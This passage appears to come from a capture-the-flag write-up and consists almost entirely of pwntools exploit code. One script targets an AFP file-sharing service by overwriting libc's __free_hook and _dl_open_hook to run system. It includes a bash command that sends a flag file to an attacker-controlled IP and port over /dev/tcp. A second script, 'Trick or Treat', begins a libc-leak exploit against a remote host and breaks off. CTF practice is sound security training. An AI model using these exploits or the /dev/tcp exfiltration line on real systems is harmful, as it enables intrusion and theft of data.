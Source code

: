 ```python=
libc = u64(addr)+offset
#libc=0x7fea3340b120-0x43120 # local libc offset
#print hex(libc)
#print hex(libc+0x3ed8e8)
#print hex(libc+0x3f04a8) # dl_open_hook
#print hex(libc+0x7EA1F)
#print hex(libc+0x166488)
#print hex(libc+0x4f440)
#raw_input()
#libc=0x7fea3340b120-0x43120
#setcontext+53



r.send(create_header(p64(libc+0x3ed8e8-0x30))) #  overwrite afp_command buf with free_hook-0x30 
context.arch = "amd64"

r8=0
r9=1
r12=1
r13=1
r14=1
r15=1
rdi=libc+0x3ed8e8+8 # cmd buffer
rsi=0x1111
rbp=0x1111
rbx=0x1111
rdx=0x1211
rcx=0x1211
rsp=libc+0x3ed8e8
rspp=libc+0x4f440 # system
payload2=flat(
r8,r9,
0,0,r12,r13,r14,r15,rdi,rsi,rbp,rbx,rdx,0,rcx,rsp,rspp
)
rip="X.X.X.X"
rport=11112
cmd='bash -c "cat /home/ctf/flag > /dev/tcp/%s/%d" \x00' % (rip,rport) # cat flag to controled ip and port 
payload = flat("\x00"*0x2e+p64(libc+0x166488)+cmd.ljust(0x2bb8,"\x00")+p64(libc+0x3f04a8+8)+p64(libc+0x7EA1F)*4+p64(libc+0x52070+53)+payload2) #over write _free_hook and _dl_open_hook
r.send(create_afp(0,payload))
r.send(create_afp(18,flat(
    ""
)))
        

r.interactive()
```
### 🎃 Trick or Treat 🎃
```python
from pwn import *

#r = process(["./trick_or_treat"])

r = remote("3.112.41.140", 56746)
r.sendlineafter(":",str(0x1000000))
r.recvuntil(":")
libc = int(r.recvline(),16)+0x1000ff0
print hex(libc)
offset = 0x1000ff0
r.sendlineafter(":",hex((offset+0x3ed8e8)/8))
```